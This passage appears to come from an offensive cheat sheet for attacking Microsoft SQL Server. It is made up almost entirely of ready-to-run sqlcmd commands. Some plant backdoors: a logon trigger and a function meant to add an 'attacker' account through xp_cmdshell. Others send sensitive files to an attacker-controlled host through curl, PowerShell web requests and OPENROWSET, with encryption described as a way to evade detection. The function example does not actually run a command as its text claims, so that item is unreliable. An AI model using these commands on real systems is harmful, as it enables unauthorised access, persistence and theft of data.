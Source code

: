- **Starting the Extended Events Session**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "ALTER EVENT SESSION [maliciousSession] ON SERVER STATE = START;"
  ```
  Start the malicious Extended Events session to begin data collection.

### 18.3 SQL Server Database Backdoor
- **Creating a Database-Level Trigger Backdoor**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -d <database> -Q "CREATE TRIGGER db_backdoor ON DATABASE FOR LOGON AS BEGIN EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'net user attacker P@ssw0rd /add'; END;"
  ```
  Create a database-level trigger that executes a backdoor command whenever someone logs in.

- **Persistence via SQL Server User-defined Functions (UDFs)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE FUNCTION dbo.BackdoorFunc() RETURNS NVARCHAR(4000) AS BEGIN RETURN (SELECT 'net user attacker P@ssw0rd /add'); END;"
  ```
  Create a UDF that acts as a backdoor, executing commands whenever it's invoked.

## 19. Data Exfiltration Techniques

### 19.1 Exfiltration via HTTP Tunneling
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -c Invoke-WebRequest -Uri http://<attacker_ip>/upload -Method POST -Body (Get-Content C:\\SensitiveData.txt)';"
  ```
  Exfiltrate data by tunneling through HTTP requests to an attacker-controlled server.

### 19.2 Exfiltration via Encrypted Channels
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'openssl enc -aes-256-cbc -salt -in C:\\SensitiveData.txt -out C:\\SensitiveData.enc -pass pass:yourpassword';"
  ```
  Encrypt sensitive data before exfiltration to evade detection.

- **Transfer Encrypted Data**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'curl -F file=@C:\\SensitiveData.enc http://<attacker_ip>/upload';"
  ```
  Transfer the encrypted data via a secure channel.

### 19.3 Exfiltration Using SQL Server Linked Servers
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "INSERT INTO OPENROWSET('SQLNCLI', 'Server=<attacker_ip>;Uid=<username>;Pwd=<password>;', 'SELECT * FROM sensitive_data') SELECT * FROM local_sensitive_table;"
  ```
  Use linked servers to exfiltrate data from a local SQL Server to an attacker-controlled SQL Server.
